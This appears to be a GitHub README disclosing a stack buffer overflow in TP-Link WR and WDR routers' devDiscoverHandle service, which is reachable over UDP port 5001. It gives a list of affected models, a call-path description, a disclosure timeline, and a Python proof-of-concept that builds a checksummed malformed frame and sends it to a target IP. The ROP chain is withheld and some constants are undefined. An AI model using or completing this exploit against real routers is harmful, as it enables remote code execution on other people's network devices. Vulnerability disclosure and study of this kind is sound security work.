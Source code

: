 # TP-Link-poc

TP-Link router have a stack overflow in devDiscoverHandle server.

Any user can get remote code execution through LAN, this vulnerability currently affects latest WR、WDR series, including WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability description

This vulnerability happen when  devDiscoverHandle  receive data by using `recvfrom` from `udp port 5001`.Then enter the `protocol_handler`->`parse_advertisement_frame`->`copy_msg_element`.In the function of `copy_msg_element` we can control `iParm1` and `iParm3` that It lead to a stack buffer overflow to execute arbitrary code.

![](./1.png)

## Poc

Refer to this video: [poc_video.mkv](./poc_video.mkv)

**poc**

```

import sys
import struct
import requests
from pwn import *
def fix_checksum(data):
    checksum = 0
    for off in range(0, len(data), 2):
        checksum += u16(data[off:off+2])
    checksum &= 0xffffffff
    while True:
        if (checksum >> 0x10) == 0:
            break
        checksum = (checksum & 0xffff) + (checksum >> 0x10)
    checksum &= 0xffff
    return p16(0xffff - checksum)

magic = '\x01\x02\x0e\x00\xe1\x2b\x83\xc7'
pad2 = '  ' + gadget.ljust(602-8-0x1d*0) + gadget1
tmp = '\x00\x05'+p16(len(pad2))+pad2
# gadget1 and gadget is ROPchain, here we don't show it.
checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload = magic + checksum + p16(len(tmp)) + '\x00\x00' + tmp

udpsever=socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
udpsever.setsockopt(socket.IPPROTO_IP, socket.IP_MULTICAST_TTL, 2)
udpsever.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
udpsever.bind(('', MCAST_PORT))
mreq = struct.pack('4sl', socket.inet_aton(MCAST_GRP), socket.INADDR_ANY)
udpsever.setsockopt(socket.IPPROTO_IP, socket.IP_ADD_MEMBERSHIP, mreq)

udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload,(sys.argv[1],5001))
udp.close()
```

## Timeline
2020.11.7 show in TFC conntest

2020.11.15 report to CVE and TP-Link
